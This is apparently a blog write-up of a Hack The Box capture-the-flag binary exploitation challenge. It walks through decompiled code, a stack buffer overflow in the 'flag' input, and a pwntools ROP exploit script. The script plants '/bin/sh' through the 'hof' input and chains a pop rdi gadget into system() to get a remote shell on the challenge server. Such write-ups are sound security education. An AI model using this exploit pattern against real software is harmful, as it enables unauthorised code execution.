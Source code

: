 ```yaml
---

title: HTB [HTB CONSOLE] [PWN]

date: 2022-06-03 08:28:05 +0200

categories: [pwn,htb]

tags: [Intro to Binary Exploitation]

---
```


**Analysis:**

```css
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

**main()**
```c
void main(void)

{
  char local_18 [16];
  
  FUN_00401196();
  puts("Welcome HTB Console Version 0.1 Beta.");
  do {
    printf(">> ");
    fgets(local_18,0x10,stdin);
    FUN_00401201(local_18);
    memset(local_18,0,0x10);
  } while( true );
}
```
- main function gets our input and sends it to `FUN_00401201()`


**FUN_00401201()**
```c

void FUN_00401201(char *param_1)

{
  int iVar1;
  char local_18 [16];
  
  iVar1 = strcmp(param_1,"id\n");
  if (iVar1 == 0) {
    puts("guest(1337) guest(1337) HTB(31337)");
  }
  else {
    iVar1 = strcmp(param_1,"dir\n");
    if (iVar1 == 0) {
      puts("/home/HTB");
    }
    else {
      iVar1 = strcmp(param_1,"flag\n");
      if (iVar1 == 0) {
        printf("Enter flag: ");
        fgets(local_18,0x30,stdin);
        puts("Whoops, wrong flag!");
      }
      else {
        iVar1 = strcmp(param_1,"hof\n");
        if (iVar1 == 0) {
          puts("Register yourself for HTB Hall of Fame!");
          printf("Enter your name: ");
          fgets(&DAT_004040b0,10,stdin);
          puts("See you on HoF soon! :)");
        }
        else {
          iVar1 = strcmp(param_1,"ls\n");
          if (iVar1 == 0) {
            puts("- Boxes");
            puts("- Challenges");
            puts("- Endgames");
            puts("- Fortress");
            puts("- Battlegrounds");
          }
          else {
            iVar1 = strcmp(param_1,"date\n");
            if (iVar1 == 0) {
              system("date");
            }
            else {
              puts("Unrecognized command.");
            }
          }
        }
      }
    }
  }
  return;
}
```

- If we enter certain strings it'll give some command like outputs, but if we enter date, it actually executes system command 'date' and gives us output
- Also there's a buffer overflow in 'flag' option
```c
char local_18 [16]
fgets(local_18,0x30,stdin)
```
- but there's no useful functions are there
- So we can't able to get flag easily


**Exploit strategy:**
- There's system function, so we can use that latter
- But we need `/bin/sh` in argument
- So let's use pop rdi to put that value
- We can't directly put that string in rdi gadget, we need to put address of that string, So we need to store that in a place
- We have several inputs, let's store `/bin/sh` in any one of that and point that address in rdi
- Now time to write our exploit


**Exploit script:**

```python
from pwn import *

elf = context.binary = ELF("./patched_htb-console")
p = elf.process()
p = remote('159.65.19.24',30324)
rop = ROP(elf)

p.sendline('hof')
p.sendline('/bin/sh')
p.sendline('flag')

payload = b'A'*24 # junk
payload += p64(rop.find_gadget(['pop rdi','ret'])[0])
payload += p64(0x004040b0) # pointer to /bin/sh
payload += p64(elf.sym['system']) # calling system

p.sendline(payload)
p.interactive()
```

![](https://i.imgur.com/tdkEeka.png)
- Cool we got our flag

